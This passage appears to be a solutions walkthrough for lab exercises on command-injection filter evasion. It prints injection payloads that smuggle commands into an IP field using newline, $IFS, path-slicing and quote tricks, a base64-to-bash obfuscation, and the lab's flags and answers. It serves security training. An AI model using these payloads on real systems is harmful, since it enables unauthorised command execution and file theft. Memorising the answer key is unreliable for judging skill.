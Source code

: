 ### "Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found."

After spawning the target machine and visiting its website's root webpage, students need to use `Burp Suite` or `ZAP` to intercept the request made after clicking the `Check` button. Students can use payloads that bypass the space filters such as `$IFS` or `%09`, `${PATH:0:1}` to bypass the forward slash character filter, and add two apostrophes on the `cat` command to bypass its blacklisting filter such that it becomes `c'a't`. Students will attain the flag `HTB{b451c_f1l73r5_w0n7_570p_m3}`:

```
ip=127.0.0.1%0ac'a't${IFS}${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

![[HTB Solutions/CBBH/z. images/d3e3f1eb7e48b93cf744c07f38950e87_MD5.jpg]]

Answer: `HTB{b451c_f1l73r5_w0n7_570p_m3}`

# Advanced Command Obfuscation

## Question 1

### "Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1"

After spawning the target machine and visiting its website's root webpage, students need to use `Burp Suite` or `ZAP` to intercept the request made after clicking the `Check` button. Since the `pipe` operator is in the command, students need to use the third method which encodes all characters. Thus, students first need to base64-encode the command:

Code: shell

```shell
echo -n 'find /usr/share/ | grep root | tail -n 1' | base64
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64

ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

Subsequently, students then need to create a command that will decode the encoded base64 string in a sub-shell and then pass it to `bash` to be executed:

```
bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

At last, students need to bypass the space character filter by using either `%09` or `$IFS`, use the `new-line` operator `%0a` to separate the payload from the IP address, and forward the modified intercepted request. Students will attain the output `/usr/share/mysql/debian_create_root_user.sql`:
